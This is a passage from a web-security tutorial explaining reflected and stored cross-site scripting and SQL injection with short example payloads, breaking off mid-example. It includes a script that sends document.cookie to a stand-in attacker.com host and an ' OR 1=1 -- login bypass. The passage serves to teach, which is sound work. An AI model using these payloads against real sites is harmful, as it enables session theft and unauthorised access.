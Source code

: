 When a victim clicks the crafted URL, the malicious script is executed, causing an alert box to pop up. This example demonstrates a simple reflected XSS attack, where the malicious payload is executed immediately upon visiting the crafted URL.

**Example 2: Stored XSS**

A web application allows users to post comments on a blog post. The application does not properly sanitize the user input, allowing an attacker to post a comment containing a malicious script:

```xml
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>
```

When other users view the blog post, the malicious script is executed, sending their session cookies to the attacker's server. This example demonstrates a stored XSS attack, where the malicious payload is stored on the server and executed for multiple users.

To learn more about real-world XSS vulnerabilities, you can refer to the following resources:

*   [OWASP XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
*   [PortSwigger's XSS Labs](https://portswigger.net/web-security/cross-site-scripting)

#### 2\. SQL Injection

**Example 1: Authentication Bypass**

A web application's login functionality uses the following SQL query to authenticate users:

```sql
SELECT * FROM users WHERE username='INPUT_USERNAME' AND password='INPUT_PASSWORD';
```

An attacker enters the following input as the username:

```vbnet
' OR 1=1 --
```

The resulting SQL query becomes:

```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='INPUT_PASSWORD';
```

Since `1=1` is always true, the authentication check is bypassed, and the attacker gains unauthorized access to the application.

**Example 2: Data Exfiltration**

A web application displays a user's profile based on a user\_id parameter in the URL:

```bash
https://example.com/profile?user_id=1
```

The application uses the following SQL query to fetch user information:

```sql
SELECT * FROM users WHERE user_id=INPUT_USER_ID;
```

An attacker manipulates the URL parameter with a SQL injection payload:
